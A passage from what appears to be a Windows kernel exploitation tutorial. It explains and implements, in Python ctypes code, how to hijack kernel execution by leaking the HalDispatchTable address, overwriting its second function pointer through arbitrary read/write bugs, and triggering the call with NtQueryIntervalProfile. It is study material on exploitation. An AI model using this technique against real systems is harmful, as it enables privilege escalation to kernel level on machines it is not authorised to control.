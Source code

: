 ```python
        print('Failed to load ntoskrnl.exe')
        return -1

    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    addr = windll.kernel32.GetProcAddress(handle, symbol)

    return (addr - handle) + kernel_base

```

This should be enough for now.


#### 1 - Hijacking kernel execution flow

In order to hijack the kernel execution flow we will overwrite a function pointer in `HalDispatchTable`. The book "A Guide to Kernel Exploitation - Attacking the Core" mentions that this technique was originally used by Ruben Santamarta and described in the paper "Exploiting Common Flaws in Drivers", which you can find [here](https://drive.google.com/file/d/1j3SkLIOVidguOjmT4_F1yiCcdnm9W8LT/view). The HalDispatchTable is an exported kernel symbol (we can leak its address using the technique with EnumDeviceDrivers, LoadLibrary and GetProcAddress) that stores function pointers. In x64, the second function pointer of HalDispatchTable is located at HalDispatchTable + 0x8, and is called every time we use the undocumented `NtQueryIntervalProfile` system call. So the overall idea is:

1. We leak the kernel base address using NtQuerySystemInformation or EnumDeviceDrivers (two well-known techniques that works for programs running at Medium Integrity Level);
2. Use LoadLibrary to load ntoskrnl.exe as a library in the context of our program and use GetProcAddress to get the offset of HalDispatchTable from the kernel base address;
3. Use the leaked kernel base address to calculate the real address of HalDispatchTable;
4. Use the arbitrary read vulnerability to backup the value of `HalDispatchTable + 8`;
5. Use the arbitrary write vulnerability to overwrite the value of `HalDispatchTable + 8` to some function pointer we want to execute;
6. Execute the `NtQueryIntervalProfile` system call, executing our new function pointer at `HalDispatchTable + 8`;
7. Use the arbitrary write vulnerability to restore the backup value of `HalDispatchTable + 8`, so we don't mess up with the kernel.

With this technique we should be able to hijack the kernel execution flow. Here is how we can implement this part:

```python
def main():
    hal_dispatch_table_addr = get_kernel_symbol_addr(b'HalDispatchTable')

    if hal_dispatch_table_addr in [0, -1]:
        print('Error while getting address to HalDispatchTable')
        return 1

    backup_function_pointer = read(hal_dispatch_table_addr + 0x8)
    shellcode_addr = 0x0000000041414141
    write(shellcode_addr, hal_dispatch_table_addr + 0x8)
    windll.ntdll.NtQueryIntervalProfile(0x1234, 0x1234)
    write(backup_function_pointer, hal_dispatch_table_addr + 0x8)
```

